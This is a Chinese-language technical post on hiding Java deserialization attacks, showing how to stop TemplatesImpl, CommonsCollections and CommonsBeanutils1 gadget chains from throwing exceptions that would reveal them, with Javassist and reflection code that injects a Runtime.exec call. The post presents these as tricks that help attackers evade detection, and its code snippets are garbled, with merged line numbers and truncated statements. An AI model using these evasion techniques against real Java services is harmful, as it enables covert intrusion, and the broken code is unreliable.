








使Gadget Chain更加隐蔽 原理 在反序列化过程中，如果Gadget Chain的构造不当，可能会抛出异常，从而暴露攻击行为。为了使攻击更加隐蔽，需要深入理解Gadget Chain的代码流程，避免抛出异常。
方法
处理Translet异常： 在使用Translet相关的Gadget Chain时，可能会抛出NullPointerException，可以通过初始化namesArray字段或设置transletVersion字段来避免。处理CommonsCollections异常： 在使用CommonsCollections相关的Gadget Chain时，可能会因为Transformer Chain的返回值不是Comparable类型而抛出异常，可以通过在Chain的末尾添加ConstantTransformer("")来避免。处理CommonsBeanutils1异常： 在使用CommonsBeanutils1 Gadget Chain时，可能会因为getOutputProperties方法返回的对象不是Comparable类型而抛出异常，可以通过使用NullComparator来避免。将Gadget Chain封装在真实对象中： 如果应用程序期望接收特定类型的对象，可以将Gadget Chain封装在该类型的对象中，避免应用程序抛出类型转换异常。
示例 处理Translet异常：
1 2 3 4 java0 ].setBody("this.namesArray = new String[0];" );
处理CommonsCollections异常：
1 2 3 4 5 6 7 javaChainedTransformer chain = new ChainedTransformer (new Transformer []{new ConstantTransformer ("" )
处理CommonsBeanutils1异常：
1 2 3 4 5 6 java"java.util.Comparators$NullComparator" );true , null );BeanComparator comparator = new BeanComparator ("lowestSetBit" , nullComparator);
总结 本文介绍了一些高级的Java反序列化漏洞利用技巧，包括绕过WAF和EDR、运行时注入自定义类、利用ThreadLocal绕过数据过滤、劫持HTTP请求流程、使Gadget Chain更加隐蔽等。这些技巧可以帮助攻击者更加隐蔽地进行攻击，但也提醒我们，需要不断加强安全防护，及时修补漏洞，才能有效地保护系统安全。
复现 AbstractTranslet 通常我们使用反序列化加载class,会使用到template. 最后的调用栈如下
1 2 3 4 5 6 Caused by: java.lang.NullPointerException372 )456 )486 )64 )21 more
com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet.postInitialization

来到这个类，可以看到他会判断transletVersion < VER_SPLIT_NAMES_ARRAY，然后获取namesArray.length

其中transletVersion < VER_SPLIT_NAMES_ARRAY 是final修饰，有初始值。namesArray没有初始值, 所以在反序列化时为null，触发错误。也就是我们只要给namesArray赋值可以了
1 2 3 4 5 6 7 8 ClassPool pool = ClassPool.getDefault();new ClassClassPath (AbstractTranslet.class));CtClass cat = pool.makeClass("cat" );CtConstructor constructor = new CtConstructor (new CtClass []{}, cat);"{java.lang.reflect.Field namesArray = this.getClass().getSuperclass().getDeclaredField(\"namesArray\");namesArray.setAccessible(true); namesArray.set(this, new String[0]);}" );"java.lang.Runtime.getRuntime().exec(\"open .\");" );
所以在构造构造函数时对父类namesArray赋值为0，就不会报错，从而达到隐藏gadget的目的。

运行后，无报错信息。
CommonsCollections ChainedTransformer 链式调用最后面插入一个 new ConstantTransformer (“”);返回空。
CommonsBeanutils1 
正常情况下的调用，会包强转错误，爆出调用流
org.apache.commons.beanutils.BeanComparator#compare

在getProperty触发getter方法对到对象，然后调用internalCompare方法

最后调用comparator.compare. 所以我们这个comparator改成Comparators$NullComparator

可以看到我们可以到吧这个类的real赋值为null，就可以断掉整个流程。
1 2 3 4 5 6 Constructor<?> constructors = utils.getConstructor("java.util.Comparators$NullComparator" );Comparator nullComparator = (Comparator) constructors.newInstance(true , null );new BeanComparator ("1" ,nullComparator);"property" ,"outputProperties" );PriorityQueue priorityQueue1 = priorityqueue2compare(objectBeanComparator, templates);

可以看到反序列化的时候，走到了 null.compare. 从而达到隐藏调用流的目的
reference https://juejin.cn/post/7468524354438135823#heading-16